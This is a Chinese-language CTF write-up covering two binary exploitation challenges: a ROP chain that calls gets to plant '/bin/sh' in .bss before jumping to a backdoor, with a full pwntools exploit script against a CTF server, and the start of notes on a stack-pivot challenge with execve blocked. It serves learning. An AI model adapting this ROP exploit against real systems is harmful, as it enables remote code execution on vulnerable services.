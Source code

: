 ## 3 ret2libc也阴嘛？

> 很好的ret2dlresolve
> 
> [延迟绑定与 ret2dlresolve 详解 - xshhc - 博客园](https://www.cnblogs.com/xshhc/p/17335007.html)

这道题emmm我没有ret2libc，不过思路是从ret2dlresolve搞到的

不过题目看起来涉及libc的样子（难道不是预期解法，等我都写完就去翻翻看

毕竟这道题其实就差一个指向’/bin/sh‘字符串的指针，后面的system都给好函数了

原理就是重新调用一次gets，自己找一个固定地址写进去，这样就有了一个固定的指向’/bin/sh‘字符串的指针，直接放到rdi里调后门就好了

```python
elf = ELF("---------/nothing")
libc = ELF("-----------/libc.so.6")
read_plt = elf.plt['gets']
print(hex(read_plt))
buf = elf.bss() + 0x800
print(hex(buf))
p = remote('node9.anna.nssctf.cn', 25526)

payload =  ((b'A'* (48+8) +
            p64(0x0401273) + p64(buf) +
            p64(read_plt) +
            p64(0x0401273) + p64(buf) + p64(0x04011C1)))
p.sendline(payload)
sleep(3)
payload = b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
```

`elf.bss() + 0x800`这个是随机的，只要放在不影响别人的地方就好了，不过参考写的0x800，我也写这个

总之就是第一次payload准备好调用链，先gets，再backdoor

第二次payload是自己的gets给的机会，输入’/bin/sh‘

之后就会按第一次给的调用链走下去了

## 4 不可名状的东西

这是一个栈劫持，好多坑（

整理一下思考步骤

- 只有rbp+ret+一个指针的溢出区，搜了一下只能栈劫持
- 发现不能调用system，因为execve被禁用了！只能走单独输出flag的路子
- rop可以通过libc库里的构造，但是每个libc能用的gadget是不一样的！
- 劫持后的调用链不能超过输入的缓冲区也就是0x80！！！！

我就是后两条叠加卡住了！！！！本地的库可以直接pop rdx整个调用链放满

远端的没有直接pop的，必须pop两个，调用链就超了
